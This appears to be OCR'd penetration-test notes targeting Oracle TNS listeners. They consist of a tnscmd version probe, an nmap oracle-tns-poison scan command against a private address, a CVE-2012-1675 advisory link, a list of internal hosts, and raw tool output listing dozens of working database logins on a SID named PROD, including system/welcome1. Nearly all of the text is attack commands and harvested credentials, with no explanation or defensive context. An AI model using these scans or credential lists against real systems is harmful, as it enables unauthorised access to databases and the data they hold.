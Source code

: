 tnscmd -s $SERVER -p $PORT --version

nmap -Pn -sT --script=+oracle-tns-poison -p 1521 10.10.80.21

https://www.oracle.com/security-alerts/alert-cve-2012-1675.html

10.10.80.21
10.10.80.22
10.10.80.60
10.10.80.62
10.10.80.90
10.10.80.120

------------------------------------------------------------------------------------------------------

[+] Accounts found on 10.10.80.21:1521/sid:PROD:

ak/ak
anonymous/anonymous
ap/ap
applsyspub/pub
asn/asn
asp/asp
ax/ax
bis/bis
cct/cct
csc/csc
csr/csr
ctxsys/ctxsys
dom/dom
eni/eni
fa/fa
ghg/ghg
gl/gl
gmd/gmd
gmi/gmi
gml/gml
hr/hr
hxt/hxt
ibu/ibu
iem/iem
ies/ies
igi/igi
imc/imc
ja/ja
lns/lns
mfg/mfg
mrp/mrp
mso/mso
msr/msr
oe/oe
olapsys/olapsys
osm/osm
po/po
prp/prp
qp/qp
qrm/qrm
rg/rg
spatial_wfs_admin_usr/spatial_wfs_admin_usr
ssp/ssp
system/welcome1
xdp/xdp
xle/xle
xnp/xnp
